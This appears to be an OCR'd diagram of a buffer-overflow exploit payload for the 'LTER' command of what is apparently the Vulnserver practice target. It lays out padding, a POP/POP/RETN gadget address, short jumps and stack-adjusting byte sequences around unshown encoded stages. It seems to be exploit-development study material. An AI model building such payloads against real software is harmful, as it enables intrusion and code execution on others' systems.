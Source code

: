 ```
|------------------------------------------------------------|<--------------------|                   |
|    b'C' * 2                                                |                     |                   |
|------------------------------------------------------------|                     |                   |
|    struct.pack('<L', 0x6250271B)                           | # POP EDI # POP EBP # RETN -①-|         |
|------------------------------------------------------------|                     |         |         |
|    b'\x74\x06'                                             | # JZ SHORT +0x8  -②-|         |         |
|    b'\x75\x08'                                             | # JNZ SHORT +0x10 <-----------|         | 
|------------------------------------------------------------|                                         |
|    b'A' * (79 - (6 + len(JUMP_ENCODE)))                    | -④------------------|                   |
|------------------------------------------------------------|                     |                   |
|    JUMP_ENCODE                                             |                     |                   |
|------------------------------------------------------------|                     |                   |
|    b'\x5c'                                                 | # POP ESP           |                   |
|    b'\x50'                                                 | # PUSH EAX          |                   |
|    b'\x2c\x30'                                             | # SUB AL,30         |                   |
|    b'\x58'                                                 | # POP EAX           |                   |
|    b'\x54'                                                 | # PUSH ESP <----------------------------|
|    b'A' * (3574 - (64 + 20 + 79 + 4 + len(FIRST_STAGE)))   |                     |  
|------------------------------------------------------------|                     |
|    FIRST_STAGE                                             |                     |
|------------------------------------------------------------|                     |
|    b'\x5c'                                                 | # POP ESP           |
|    b'\x50'                                                 | # PUSH EAX          |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x66\x2d\x69\x02'                                     | # SUB AX,0x0269     |
|    b'\x58'                                                 | # POP EAX           |
|    b'\x54'                                                 | # PUSH ESP          |
|------------------------------------------------------------|<--------------------|
|    b'A' * 64                                               |
|------------------------------------------------------------|
|    b'LTER .'                                               |
|------------------------------------------------------------|
```
